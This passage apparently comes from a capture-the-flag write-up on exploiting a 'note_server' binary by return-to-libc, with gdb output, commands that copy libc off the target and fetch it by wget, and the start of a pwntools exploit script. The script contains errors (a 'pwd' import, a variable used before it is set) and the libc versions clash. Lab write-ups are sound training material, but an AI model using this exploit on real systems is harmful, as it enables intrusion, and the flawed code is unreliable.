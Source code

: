 Using `gdb` on the binary file, and running `info proc mappings`:

![image-20201105174415052](/assets/intense/image-20201105174415052.png)

We see that `libc-2.32.so` is loaded, and since there are countermeasures for buffer overflows, and since the stack canary is enabled, it is time for a [return to libc attack](https://www.youtube.com/watch?v=m17mV24TgwY). To do so, we need to make the program to return, after the executed function, to the `system` system call indexed in the `libc` library, which is `libc-2.27.so` on the box. We can retrieve that version with:

```bash
# On victim
locate libc | grep "\.so$"
cp <libc> /tmp && cd /tmp
python3 -m http.server
# On attacker
wget "http://10.10.10.195:8000/<libc>"
```

Then, we have to execute the `ret2libc` attack knowing the offset of the system call on the exact version of libc. To do so, we need (with an active `ssh` tunnel):

```python
from pwd import *

# Define basic variables and files location (to get some offsets)
HOST = "127.0.0.1"
PORT = 5001
LIBC = "./libc-2.27.so"
EXEC = "./note_server"

# https://pwntools.readthedocs.io/en/stable/context.html
context(os="linux", arch="amd64")
# https://pwntools.readthedocs.io/en/stable/tubes.html
con = remote(HOST,PORT)

def deliv(data):
	con.send(p8(1))
	con.send(p8(len(data)))
	con.send(data)

def write_to(val=0):
	if val == None:
		val = len(app_len)
	while val < 1024:
		app_len = min(255, 1024 - val)
		app_data = cyclic(app_len)
		deliv(app_data)
		val += app_len

```
